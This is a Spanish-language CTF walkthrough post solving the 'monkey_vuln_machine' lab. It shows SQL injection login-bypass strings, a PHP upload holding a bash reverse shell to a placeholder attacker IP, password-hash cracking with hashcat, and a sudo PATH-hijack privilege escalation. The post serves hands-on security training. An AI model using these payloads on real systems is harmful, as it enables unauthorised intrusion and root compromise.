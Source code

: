 ```yaml
---
layout: /src/layouts/MDLayout.astro
title: Cómo resolver monkey_vuln_machine
description: Learn how to solve a CTF machine in this post. Discover how to perform a login bypass, decrypt hashes, escalate privileges, and more.
---
```

**Es importante tener en cuenta que el siguiente post contiene spoilers y revela la solución a una máquina de CTF. Si aún no has resuelto la máquina y quieres hacerlo por ti mismo, te recomendamos que no sigas leyendo. ¡Buena suerte resolviendo la máquina!**

https://github.com/wanetty/monkey_vuln_machine

En los eventos de CTF, los participantes tienen como objetivo encontrar vulnerabilidades en sistemas y aplicaciones para obtener acceso no autorizado y, en última instancia, encontrar la "bandera" o la respuesta a un desafío en particular. En este post, veremos cómo resolver una máquina de CTF siguiendo una serie de pasos.

## Bypass de login

En primer lugar, intentaremos acceder a la aplicación utilizando una técnica de "Bypass de login". Para ello, se pueden utilizar las siguientes inyecciones de SQL:


```bash
test ' or 1 = 1 --  test 
' or 'a' = 'a' --
```

Estas inyecciones explotan una vulnerabilidad en el código de la aplicación y permiten acceder sin necesidad de proporcionar las credenciales correctas.

## Subida de ficheros

Una vez dentro de la aplicación, podemos aprovechar una vulnerabilidad de subida de ficheros para subir un archivo que nos permita establecer una conexión de "Reverse Shell". Para ello, podemos utilizar un archivo PHP con el siguiente contenido:

```php
<?php     
	exec("/bin/bash -c 'bash -i >& /dev/tcp/IP_DEL_ATACANTE/PUERTO 0>&1'"); 
?>
```

Debemos sustituir "IP_DEL_ATACANTE" y "PUERTO" con nuestra propia dirección IP y un puerto que esté disponible para la conexión.

## Conexión base de datos

Una vez que hemos conseguido una Reverse Shell, podemos buscar las credenciales de conexión a la base de datos en el código de la aplicación. En este caso, encontramos las credenciales en el archivo `login.php`.

Utilizamos las credenciales para conectarnos a la base de datos mediante el siguiente comando:

```bash
mysql -h mariadb -u Threepwood -pmonkeyisland user_db
```

## Descifrando hashes

Dentro de la base de datos encontramos un archivo de hashes. Para descifrarlos, podemos utilizar la herramienta `hashcat` y una lista de palabras comunes. El comando para descifrar los hashes en el archivo `hashes.txt` utilizando la lista de palabras `rockyou.txt` sería:

```bash
hashcat -m 0 hashes.txt /usr/share/wordlist/rockyou.txt
```

## Escalada de privilegios

Finalmente, para escalar nuestros privilegios, buscamos en el sistema algún comando que podamos ejecutar con permisos de super usuario. En este caso, encontramos un script llamado `find_chest.sh` que se puede ejecutar como super usuario sin necesidad de introducir una contraseña. Además, este script utiliza la variable `cat` de forma relativa, lo que significa que podemos manipular la variable `$PATH` para ejecutar cualquier comando con permisos de super usuario. Para ello, ejecutamos el siguiente comando:
```bash
sudo PATH=$(pwd):$PATH /home/Guybrush/find_chest.sh
```

Con esto, conseguimos ejecutar el comando que queramos con permisos de super usuario, lo que nos permite completar el desafío.



